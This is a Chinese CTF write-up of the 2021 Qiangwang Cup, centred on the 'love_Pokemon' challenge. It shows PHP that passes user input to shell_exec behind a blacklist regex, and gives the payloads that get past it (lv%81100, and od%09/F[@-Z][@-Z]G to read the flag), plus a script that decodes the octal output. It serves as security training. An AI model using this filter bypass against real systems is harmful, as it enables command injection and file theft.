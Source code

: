 #  2021年强网杯WriteUp

> 在这里说一下，本人CTF萌新坐了2天的板凳
>
> 根据别的大佬的Wp进行总结与反思

~~为什么要看我的呢?~~(bushi

因为我是先从开发走的安全，具有一定的基础

然后我会根据当时的情形具体说说我做的题的思路。

##  **love_Pokemon**

```php
if ((!preg_match('/lv100/i',$level)) &&(preg_match('/lv100/i',escapeshellarg($level)))){
		echo file_get_contents('./hint.php');
}
```

这里主要考的是`escapeshellarg`这个函数。

但是我平时没做到这个函数，去搜的话主要讲的是在执行的过程中怎么绕过

但是我们要找的是两者匹配一个能过滤一个不能过滤掉

结果的答案就是：

> escapeshellarg处理后 ASCII 大于 %80的字符会被过滤
>
> levelup=lv%81100就可以拿到`hint.php`

```php
$dream = $_POST["dream"] ?? "";
if(strlen($dream)>=20){
	die("So Big Pokenmon!");
}
ghostpokemon($dream);
	echo shell_exec($dream);
}

// 循环过滤
function ghostpokemon($Pokemon){
	if(is_array($Pokemon)){
		foreach ($Pokemon as $key => $pks) {
			$Pokemon[$key] = DefenderBonus($pks);
}
    
    
// 过滤标准
function DefenderBonus($Pokemon){
if(preg_match("/'|
|_|\\$|;|l|s|flag|a|t|m|r|e|j|k|n|w|i|\\\\|p|h|u|v|\\+|\\^|\`|\~|\||\"|\
<|\>|\=|{|}|\!|\&|\*|\?|\(|\)/i",$Pokemon)){
			die('catch broken Pokemon! mew-_-two');
}
else{
			return $Pokemon;
}
```

- 判断长度
- 过滤再执行

长度还好说，主要是如何来读取文件

先看看linux读取文件命令：cat tac nl more less head tail od

到[在线网站](https://c.runoob.com/compile/1/)  

```php
<?php
$Pokemon = 'od';
if(preg_match("/'|
|_|\\$|;|l|s|flag|a|t|m|r|e|j|k|n|w|i|\\\\|p|h|u|v|\\+|\\^|\`|\~|\||\"|\
<|\>|\=|{|}|\!|\&|\*|\?|\(|\)/i",$Pokemon)){
	echo 'die';
}
else{
	echo 'pass';
}
?>
```

- od是能过的
- 发现flag中的l与a都是不分大小写过滤了的，则采用正则来`F[@-Z][@-Z]G`
- 拼凑起来 水平定位符号 od%09/F[@-Z][@-Z]G

```php
0000000 066146 063541 050173 070150 051137 031543 030537 057563 0000020 031526 074522 041537 030060 057461 072502 057564 057511 0000040 030154 031566 050137 065557 066545 067157 076576 000012 0000057
```

如何判断进制：

- 0x开头,或者h结尾的是16进制
- 0o开头的是8进制
- 0b开头的是2进制
- 其他是十进制

python进制之间的转换

```python
十进制
使用 int() 函数 ，第一个参数是字符串 '0Xff' ,第二个参数是说明
>>> int('0xf',16) 
>>> int('10100111110',2)      
>>> int('17',8)    
十六进制
>>> hex(1033)
>>> hex(int('101010',2))
>>> hex(int('17',8))
二进制
>>> bin(10)
>>> bin(int('ff',16))
>>> bin(int('17',8))
八进制 oct 函数可将任意进制的数转换成八进制的。
>>> oct(0b1010)        
>>> oct(11)
>>> oct(0xf) 
```

脚本：

将八进制转储转换回字符串

```python
dump = ""
octs = [("0o" + n) for n in  dump.split(" ") if n]
hexs = [int(n, 8) for n in octs]
result = ""
for n in hexs:
    if (len(hex(n)) > 4):
        swapped = hex(((n << 8) | (n >> 8)) & 0xFFFF)
        result += swapped[2:].zfill(4)
print(bytes.fromhex(result).decode())
```

##  easy_pgsql

> 这个我同样做不出来，我当时试了很久，包括猜的是报错盲注
>
> 结果看了Wp才发现终究是自己菜了
>
> 参考链接：https://cn-sec.com/archives/580315.html

- 扫描 我这个都直接忘了 哎～ 没事扫一扫多好 没事抓一抓多好

通过扫描拿到了www.zip 里面是两个pyc文件,还原后阅读源码

其他的话看Wp就能差不多了，挺详细的

###  完美上传器

> 我当时也是试了各种后缀都是上不去的
>
> 结果看了Wp。 ...
>
> 参考链接：https://www.cnblogs.com/twosmi1e/p/15408848.html

笑死～ 



